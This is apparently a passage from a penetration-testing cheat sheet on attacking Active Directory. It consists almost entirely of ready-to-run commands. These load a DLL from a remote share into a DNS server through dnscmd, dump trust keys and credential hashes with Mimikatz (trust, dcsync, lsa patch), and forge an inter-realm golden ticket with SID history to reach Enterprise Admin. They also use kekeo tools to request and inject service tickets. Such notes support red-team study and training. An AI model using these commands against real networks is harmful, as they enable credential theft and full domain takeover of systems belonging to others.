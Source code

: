 #### From the privilege of DNSAdmins group member, configue DDL using dnscmd.exe (needs RSAT DNS)
Share the directory the ddl is in for everyone so its accessible.
logs all DNS queries on C:\Windows\System32\kiwidns.log 
```
Dnscmd <dns server> /config /serverlevelplugindll \\<ip>\dll\mimilib.dll
```

#### Restart DNS
```
Sc \\<dns server> stop dns
Sc \\<dns server> start dns
```

## Enterprise Admins
### Child to parent - trust tickets
#### Dump trust keys
Look for in trust key from child to parent (first command) - This worked best for me! Second command didnt work :(
Look for NTLM hash (second command)
```
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -Computername <computername>
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\<computername>$"'
```

#### Create an inter-realm TGT
```
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:<domain> /sid:<sid of current domain> /sids:<sid of enterprise admin groups of the parent domain> /rc4:<trust hash> /service:krbtgt /target:<target domain> /ticket:<path to save ticket>"'
```

#### Create a TGS for a service (kekeo_old)
```
./asktgs.exe <kirbi file> CIFS/<forest dc name>
```

#### Use TGS to access the targeted service (may need to run it twice) (kekeo_old)
```
./kirbikator.exe lsa .\<kirbi file>
```

#### Check access to server
```
ls \\<servername>\c$ 
```

### Child to parent - krbtgt hash
#### Get krbtgt hash from dc
```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <computername>
```
